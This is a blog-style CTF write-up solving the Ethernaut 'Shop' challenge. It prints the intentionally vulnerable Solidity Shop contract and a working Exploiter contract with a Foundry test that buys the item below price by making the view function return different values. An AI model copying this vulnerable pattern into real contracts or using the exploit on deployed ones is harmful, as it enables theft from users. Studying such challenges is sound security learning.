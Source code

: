 ```yaml
---
title: 'Ethernaut Challenge #20 Solution — Shop'
excerpt: This is Part 20 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>The goal of this challenge is to find a way to buy the item from the `Shop` contract for a price lower compared to the one for which the item is sold.
coverImage:
  url: '/assets/blog/ethernaut/shop.svg'
  credit:
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2022-08-10T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/shop.svg'
---
```


This is Part 20 of the ["Let’s play OpenZeppelin Ethernaut CTF"](https://stermi.medium.com/lets-play-ethernaut-ctf-learning-solidity-security-while-playing-1678bd6db3c4) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

## Challenge #20: Shop

> Сan you get the item from the shop for less than the price asked?
>
> Things that might help:
>
> - `Shop` expects to be used from a `Buyer`
> - Understanding restrictions of view functions
>
> Level author(s): [Ivan Zakharov](https://github.com/34x4p08)

The goal of this challenge is to find a way to buy the item from the `Shop` contract for a price lower compared to the one for which the item is sold.

## Study the contracts

Let's review the contract that is fairly small in code length

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

As we can see, we have a `price` inside the contract that represent the amount of `wei` that a `Buyer` must pay to purchase the item.

The item can also be purchased only if it **has not been sold yet**. This property is handled by the state variable `isSold` that is initialized to `false` and then changed to `true` in the `buy` function.

Let's see in detail the `buy` function

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price();
    }
}
```

This is the main function of the contract. It cast the `msg.sender` to `Buyer` and by doing that it expect that the sender of the transaction is a **Contract** that implements the `price` function defined in the `Buyer` interface.

The `function price() external view returns (uint256);` even if it's not explicit in the Challenge description should return the price that the **buyer** is willing to pay to purchase the shop's item.

The contract check if the Buyer's price (what the buyer is willing to pay) is greater than the Shop's price and check that the item has not been sold yet. If this requirement pass, it will update `isSold` to `true` and update the `price`'s value to `_buyer.price();` that in **theory** should be the same one returned just an instruction before, **right???**

This is not a real case scenario, it's just a challenge to explain a concept. There's no fund transfer involved in the transaction.

The key concept here is: you should **never** **blindly trust** what you expect **an external actor** will do, even if you define a specific interface with a logic that the external actor should trust.

**Never ever trust blindly things that are not under your control.**

Because **we** are the buyer, we can simply implement the `price` function like this

```solidity
function price() external view returns (uint256) {
    return victim.isSold() ? 1 : 1000;
}
```

Because `price` is a `view` function we cannot have an internal state variable to change the `uint256` returned by the function, but we are enabled to make external call functions that are marked as `view` or `pure`.

Just as a reminder from the Solidity Documentation about [what `view` function can and can't do](https://docs.soliditylang.org/en/latest/contracts.html#view-functions):

> A `view` function cannot modify the state of the contract. In particular it cannot
>
> - Write to state variables.
> - Emit events.
> - Create other contracts.
> - Use selfdestruct.
> - Send Ether via calls.
> - Call any function not marked view or pure.
> - Use low-level calls.
> - Use inline assembly that contains certain opcodes.

## Solution code

First, we need to deploy a Contract that inherit and implements the `Buyer` interface required by the `Shop`

```solidity
contract Exploiter {
    // victim reference
    Shop private victim;

    // trigger the exploit
    function buy(Shop _victim) external {
        victim = _victim;
        victim.buy();
    }

    // if the item has not been sold we return what the Shop's want to see
    // but after that (by knowing the Shop logic) we ruturn what we are really
    // going to pay to purchase the item (much much lower compared to the real item's price)
    function price() external view returns (uint256) {
        return victim.isSold() ? 1 : 1000;
    }
}
```

Now we can deploy the exploiter contract and run the test to solve the challenge

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // deploy the exploiter contract
    Exploiter exploiter = new Exploiter();

    // trigger the exploit and buy the item
    exploiter.buy(level);

    // assert that we have solved the challenge
    assertEq(level.isSold(), true);

    vm.stopPrank();
}
```

You can read the full solution of the challenge opening [Shop.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/Shop.t.sol)

## Further reading

- [Solidity Docs: view functions](https://docs.soliditylang.org/en/latest/contracts.html#view-functions)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
